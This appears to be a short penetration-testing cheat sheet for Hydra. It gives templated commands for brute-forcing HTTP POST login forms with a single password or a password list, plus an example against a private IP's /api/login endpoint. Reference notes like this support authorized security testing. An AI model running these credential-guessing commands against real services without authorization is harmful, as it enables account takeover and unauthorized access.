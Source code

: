 # Hydra

Protocol brute-forcing tool

## Brute force HTTP login page

* Single password

```bash
hydra -L $USER_LIST -p $PASSWORD $TARGET_HOSTNAME_OR_IP http-post-form '$URI:$USER_PARAMETER=^USER^&$PASSWORD_PARAMTER=^PASS^:F=$FAILURE_STRING' -v
```

* Password list

```bash
hydra -L $USER_LIST -P $PASSWORD_LIST $TARGET_HOSTNAME_OR_IP http-post-form '$URI:$USER_PARAMETER=^USER^&$PASSWORD_PARAMTER=^PASS^:F=$FAILURE_STRING' -v
```

* Example:

```bash
hydra -L users.txt -p Password123 10.10.10.10 http-post-form '/api/login:username=^USER^&password=^PASS^:F=failed' -v
```
